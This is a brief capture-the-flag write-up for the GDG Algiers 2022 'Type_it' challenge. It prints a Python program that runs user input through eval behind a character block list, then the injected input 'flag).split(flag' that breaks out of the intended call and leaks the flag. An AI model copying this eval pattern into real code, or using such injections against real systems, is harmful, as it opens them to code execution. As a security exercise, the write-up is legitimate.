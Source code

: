 # GDG Algiers 2022 Type_it

```python
#!/usr/bin/env python3

FLAG = "CyberErudites{fake_flag}"
BLACKLIST = '"%&\',-/_:;@\\`{|}~*<=>[] \t\n\r'

def check(s):
    return all(ord(x) < 0x7f for x in s) and all(x not in s for x in BLACKLIST)

def safe_eval(s, func):
    if not check(s):
        print("Input is bad")
    else:
        try:
            print(eval(f"{func.__name__}({s})", {"__builtins__": {func.__name__: func}, "flag": FLAG}))
        except:
            print("Error")

if __name__ == "__main__":
    safe_eval(input("Input : "), type)
```

Requirements:

1. No non-ascii characters
2. No blacklisted characters
3. Prone to string injection

We can add right paren to end `type(` to get `type(flag)`, which is `str`. Then, we can use `str.split(flag)` to get flag content:

```shell
Input: flag).split(flag
# eval(type(flag).split(flag))
['CyberErudites{fake_flag}]
```
